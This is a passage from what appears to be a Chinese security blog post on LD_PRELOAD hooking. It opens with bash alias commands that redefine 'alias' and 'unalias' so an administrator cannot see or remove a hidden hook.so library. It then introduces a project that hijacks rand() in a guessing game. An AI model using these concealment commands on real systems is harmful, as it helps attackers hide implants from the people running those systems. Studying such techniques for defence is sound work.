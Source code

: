 使用 alias 劫持 alias（？自己打自己）

```bash
alias alias='func(){ alias "$@" | grep -v unalias | grep -v hook.so;};func'
```

[![](assets/1708920000-3f1b9d784f80115d6164adea67a63202.png)](https://mayss.oss-cn-beijing.aliyuncs.com/image/image-20240214164144432.png)

既然都是用 alias 进行的劫持，我们当然要避免 unalias，遂劫持 unalias

```bash
alias unalias='func(){ if [ $# != 0 ]; then if [ $* != "echo" ]&&[ $* != "env" ]&&[ $* != "set" ]&&[ $* != "export" ]&&[ $* != "alias" ]&&[ $* != "unalias" ]; then unalias $*;else echo "-bash: unalias: ${*}: not found";fi;else echo "unalias: usage: unalias [-a] name [name ...]";fi;};func'
```

### intersting

#### 当随机不再随机？

Number Guessing Game 的猜数字游戏玩法并不多，游戏规则通常是每轮生成一个固定数字并提供若干次的猜测机会

我们通过二分法来不断缩小正确数字的范围最后定位到精确数字

那么如果这个游戏规则是每次生成一个随机数并且只有一次猜测机会，我们如何赢得这场游戏？

[https://github.com/ProfessionallyEvil/LD\_PRELOAD-rand-Hijack-Example.git](https://github.com/ProfessionallyEvil/LD_PRELOAD-rand-Hijack-Example.git)

通过这个小项目学习 LD\_PRELOAd 劫持 rand 函数

├── LICENSE  
├── Makefile  
├── README.md  
└── src  
├── guessing\_game.c  
└── rand\_hijack.c
